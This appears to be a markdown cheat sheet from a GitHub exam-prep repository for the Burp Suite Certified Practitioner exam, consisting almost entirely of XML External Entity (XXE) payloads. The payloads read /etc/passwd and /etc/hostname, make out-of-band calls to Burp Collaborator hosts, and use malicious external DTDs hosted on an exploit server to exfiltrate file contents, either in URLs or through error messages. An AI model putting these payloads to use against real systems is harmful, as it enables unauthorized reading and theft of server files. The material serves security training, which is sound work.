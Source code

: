 # XXE



1. payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```


2.Payload

```

```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-2.jpg)

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-3.jpg)

3.Payload


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://312d7f49j37e6gjy10vxd8qvhmndb3zs.oastify.com"> ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```


4.Payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://435e9g6al49f8hlz31xyf9swjnped51u.oastify.com"> %xxe; ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```


5.Payload

```
Place the Burp Collaborator payload into a malicious DTD file:
Path : https://exploiturl.com/exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;



__________________________________________________________

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>

```


6.Payload

```

Exploit server :

<!ENTITY % filepass SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorabc SYSTEM 'file:///invalid/%filepass;'>">
%eval;
%errorabc;


________________________________________________________________

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a63005a0340421581be65cf019500c8.exploit-server.net/exploit"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```
